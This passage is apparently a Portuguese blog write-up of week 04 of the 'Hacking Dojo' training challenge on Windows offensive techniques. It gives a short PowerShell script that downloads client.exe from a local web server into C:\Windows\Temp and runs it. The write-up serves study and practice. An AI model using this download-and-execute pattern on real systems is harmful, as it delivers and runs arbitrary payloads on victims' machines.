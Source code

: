 ```yaml
---
title: Hacking Dojo - Semana \x04
author: Hastur
date: 2021-11-22 08:00:00 -0300
categories: [Estudos, Hacking Dojo]
tags: [Windows exploit, Python exploit, PowerShell port scanner, Office Weaponization, Macro]
image: "/std/dojo/dojo-logo.png"
alt: "Hacking Dojo"
---
```


Dando continuidade no desafio do [Hacking Dojo](https://becodoexploit.com/HackingDojo/), hoje atacaremos a semana 04.

Esta semana vamos atacar diretamente as linguagens mais utilizadas no `Windows`. Utilizando de `PowerShell` e as `Macros` do Office.

Bora pra cima!!

## Task \x1a

<center><img src="/std/dojo/dojo-61.png"></center>

O PowerShell possui nativamente uma variedade de comandos e funções que podem auxiliar na facilidade de se trabalhar com linha de comando. Basicamente uma evolução do `CMD` (ou um cmd metido a besta!).

Algumas destas funções auxiliam exatamente no download e execução de executáveis. Sáo elas:

* `(New-Object System.Net.WebClient).DownloadFile()` que nos permite fazer uma requisição web direto para um executável e baixá-lo
* `Start-Process ()` que nos permite executar um programa local

Se juntarmos os dois comandos, podemos facilmente cumprir o que esta task nos pede. O código ficou bem simples:

```powershell
$Arquivo = "client.exe"
$End = "http://192.168.1.7/$Arquivo"

Clear-Host

(New-Object System.Net.WebClient).DownloadFile($End,"C:\Windows\Temp\$Arquivo")
Start-Process ("C:\Windows\Temp\$Arquivo")
```
